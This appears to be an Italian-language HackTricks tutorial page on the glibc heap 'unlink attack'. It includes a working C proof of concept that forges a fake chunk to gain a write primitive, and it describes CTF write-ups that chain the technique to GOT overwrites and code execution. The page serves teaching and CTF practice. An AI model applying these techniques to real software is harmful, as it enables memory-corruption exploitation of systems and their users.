 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

Quando questo attacco è stato scoperto, consentiva principalmente un WWW (Write What Where), tuttavia, sono stati **aggiunti alcuni controlli** rendendo la nuova versione dell'attacco più interessante e più complessa e **inutile**.

### Esempio di codice:

<details>

<summary>Codice</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* L'attacco non funziona se vengono utilizzati i tcaches (dopo la versione 2.26)

### Obiettivo

Questo attacco consente di **cambiare un puntatore a un chunk per puntare a 3 indirizzi prima di se stesso**. Se questa nuova posizione (nelle vicinanze di dove si trovava il puntatore) contiene informazioni interessanti, come altre allocazioni controllabili / stack..., è possibile leggerle/sovrascriverle per causare un danno maggiore.

* Se questo puntatore si trovava nello stack, poiché ora punta a 3 indirizzi prima di se stesso e l'utente può potenzialmente leggerlo e modificarlo, sarà possibile rivelare informazioni sensibili dallo stack o persino modificare l'indirizzo di ritorno (forse) senza toccare il canary.
* Negli esempi CTF, questo puntatore si trova in un array di puntatori ad altre allocazioni, quindi, facendolo puntare a 3 indirizzi prima e potendo leggerlo e scriverlo, è possibile far puntare gli altri puntatori ad altri indirizzi.\
Poiché l'utente può potenzialmente leggere/scrivere anche le altre allocazioni, può rivelare informazioni o sovrascrivere nuovi indirizzi in posizioni arbitrarie (come nel GOT).

### Requisiti

* Alcun controllo in una memoria (ad es. stack) per creare un paio di chunk dando valori ad alcuni degli attributi.
* Leak dello stack per impostare i puntatori del fake chunk.

### Attacco

* Ci sono un paio di chunk (chunk1 e chunk2)
* L'attaccante controlla il contenuto di chunk1 e gli header di chunk2.
* In chunk1 l'attaccante crea la struttura di un fake chunk:
* Per bypassare le protezioni, si assicura che il campo `size` sia corretto per evitare l'errore: `corrupted size vs. prev_size while consolidating`
* e i campi `fd` e `bk` del fake chunk puntano a dove è memorizzato il puntatore di chunk1 con offset di -3 e -2 rispettivamente, quindi `fake_chunk->fd->bk` e `fake_chunk->bk->fd` puntano alla posizione in memoria (stack) dove si trova l'indirizzo reale di chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Gli header di chunk2 vengono modificati per indicare che il chunk precedente non è utilizzato e che la dimensione è quella del fake chunk contenuto.
* Quando il secondo chunk viene liberato, questo fake chunk viene unlinked avvenendo:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* In precedenza è stato fatto in modo che `fake_chunk->fd->bk` e `fake_chunk->bk->fd` puntassero allo stesso posto (la posizione nello stack dove era memorizzato `chunk1`, quindi era una lista collegata valida). Poiché **entrambi puntano alla stessa posizione**, solo l'ultimo (`fake_chunk->bk->fd = fake_chunk->fd`) avrà **effetto**.
* Questo **sovrascriverà il puntatore a chunk1 nello stack con l'indirizzo (o byte) memorizzati 3 indirizzi prima nello stack**.
* Pertanto, se un attaccante potesse controllare nuovamente il contenuto di chunk1, sarà in grado di **scrivere all'interno dello stack**, potendo potenzialmente sovrascrivere l'indirizzo di ritorno saltando il canary e modificare i valori e i puntatori delle variabili locali. Anche modificando nuovamente l'indirizzo di chunk1 memorizzato nello stack in una posizione diversa dove, se l'attaccante potesse controllare nuovamente il contenuto di chunk1, sarà in grado di scrivere ovunque.
* Nota che questo è stato possibile perché gli **indirizzi sono memorizzati nello stack**. Il rischio e lo sfruttamento potrebbero dipendere da **dove sono memorizzati gli indirizzi del fake chunk**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Riferimenti

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Anche se sarebbe strano trovare un attacco unlink anche in un CTF, qui hai alcuni writeup dove è stato utilizzato questo attacco:
* Esempio CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In questo esempio, invece dello stack, c'è un array di indirizzi mallocati. L'attacco unlink viene eseguito per poter allocare un chunk qui, quindi essere in grado di controllare i puntatori dell'array di indirizzi mallocati. Poi, c'è un'altra funzionalità che consente di modificare il contenuto dei chunk in questi indirizzi, il che consente di puntare gli indirizzi al GOT, modificare gli indirizzi delle funzioni per ottenere leak e RCE.
* Un altro esempio CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Proprio come nel precedente esempio, c'è un array di indirizzi di allocazioni. È possibile eseguire un attacco unlink per far puntare l'indirizzo alla prima allocazione a poche posizioni prima dell'inizio dell'array e sovrascrivere questa allocazione nella nuova posizione. Pertanto, è possibile sovrascrivere i puntatori di altre allocazioni per puntare al GOT di atoi, stamparlo per ottenere un leak di libc e poi sovrascrivere il GOT di atoi con l'indirizzo di un one gadget.
* Esempio CTF con funzioni malloc e free personalizzate che abusano di una vulnerabilità molto simile all'attacco unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* C'è un overflow che consente di controllare i puntatori FD e BK di malloc personalizzato che verranno (personalmente) liberati. Inoltre, l'heap ha il bit di esecuzione, quindi è possibile rivelare un indirizzo heap e puntare una funzione dal GOT a un chunk heap con uno shellcode da eseguire.

{% hint style="success" %}
Impara e pratica il hacking su AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking su GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

